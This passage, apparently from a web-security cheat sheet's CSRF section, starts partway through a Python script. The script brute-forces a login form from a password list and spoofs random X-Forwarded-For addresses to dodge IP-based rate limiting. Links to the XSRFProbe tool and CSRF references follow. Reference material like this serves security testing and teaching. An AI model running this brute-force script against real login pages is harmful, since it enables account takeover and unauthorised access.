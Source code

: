 ```python
        "X-Forwarded-For": f"{random.randint(1,256)}.{random.randint(1,256)}.{random.randint(1,256)}.{random.randint(1,256)}"
    }
    r = requests.post(URL, data=data, cookies=cookies, headers=headers, proxies=PROXY)
    if "Username or password incorrect" in r.text:
        return False
    else:
        print(f"FOUND {user} : {password}")
        return True

with open(PASS_LIST, "r") as f:
    for line in f:
        login(USER, line.strip())
```

## Tools <a id="tools"></a>

* [https://github.com/0xInfection/XSRFProbe](https://github.com/0xInfection/XSRFProbe)

## References

* [https://portswigger.net/web-security/csrf](https://portswigger.net/web-security/csrf)
* [https://www.hahwul.com/2019/10/bypass-referer-check-logic-for-csrf.html](https://www.hahwul.com/2019/10/bypass-referer-check-logic-for-csrf.html)

